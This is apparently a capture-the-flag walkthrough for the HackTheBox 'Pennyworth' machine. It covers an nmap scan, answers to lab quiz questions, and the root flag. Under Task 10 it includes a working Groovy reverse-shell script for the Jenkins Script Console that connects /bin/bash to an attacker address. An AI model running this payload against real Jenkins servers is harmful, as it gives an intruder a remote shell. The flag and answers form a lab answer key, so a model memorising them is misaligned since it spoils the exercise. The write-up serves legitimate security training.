 # Pennyworth

## Initial Scan

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.64.37 -oA Penntyworth
```

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

## Task 1

What does the acronym CVE stand for?

Answer: Common Vulnerabilities and Exposures

## Task 2

What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

Answer: Confidentiality, Integrity, Availability

## Task 3

What is the version of the service running on port 8080?

<figure><img src="../../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

Answer: Jetty 9.4.39.v20210325

## Task 4

What version of Jenkins is running on the target?

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

Answer: 2.289.1

## Task 5

What type of script is accepted as input on the Jenkins Script Console?

Answer: Groovy

## Task 6

What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

Answer: cmd.exe

## Task 7

What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

Answer: ifconfig

## Task 8

What switch should we use with netcat for it to use UDP transport mode?

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

Answer: -u

## Task 9

What is the term used to describe making a target host initiate a connection back to the attacker host?

Answer: reverse shell

## Task 10

Submit Root Flag

&#x20;

<figure><img src="../../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

```groovy
String host="10.10.14.80";
int port=8008;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port); InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream(); OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

&#x20;

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

Answer: 9cdfb439c7876e703e307864c9167a15
